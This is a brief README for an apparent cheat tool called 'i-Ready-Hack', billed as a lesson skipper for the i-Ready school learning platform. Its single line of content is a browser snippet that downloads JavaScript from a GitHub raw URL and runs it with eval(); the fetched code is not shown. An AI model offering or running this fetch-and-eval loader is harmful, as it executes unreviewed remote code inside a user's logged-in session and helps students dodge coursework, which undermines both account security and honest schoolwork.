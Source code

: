 # i-Ready-Hack
Light Weight i-Ready Lesson Skipper <br>
```fetch("https://raw.githubusercontent.com/no9999999/i-Ready-Hack/main/app-12.chunk.js").then(r => r.text()).then(r => eval(r))```
